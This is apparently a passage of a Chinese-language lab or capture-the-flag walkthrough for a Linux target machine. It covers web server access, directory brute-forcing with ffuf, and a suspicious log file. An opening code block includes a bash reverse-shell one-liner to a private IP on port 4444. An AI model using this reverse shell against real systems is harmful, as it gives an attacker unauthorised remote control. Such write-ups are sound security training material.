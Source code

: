 ```bash
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


http://192.168.1.102/blog-post/archives/randylogs.php

bash -c 'bash -i >& /dev/tcp/192.168.231.153/4444 0>&1'
```

**1.2 访问web服务器**

没有发现什么

![image-20231119224255113](%E9%9D%B6%E5%9C%BA%E8%AE%AD%E7%BB%83.assets/image-20231119224255113.png)

**1.3 目录爆破**

使用ffuf工具做目录递归扫描发现以下结果

```bash
┌──(kali㉿kali)-[~]
└─$ ffuf -u http://192.168.231.156/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -recursion -s  

http://192.168.231.156/blog-post/
http://192.168.231.156/blog-post/archives/
http://192.168.231.156/blog-post/uploads/
```

**1.4 访问目录发现一个可疑文件	**

![image-20231119225037904](%E9%9D%B6%E5%9C%BA%E8%AE%AD%E7%BB%83.assets/image-20231119225037904.png)
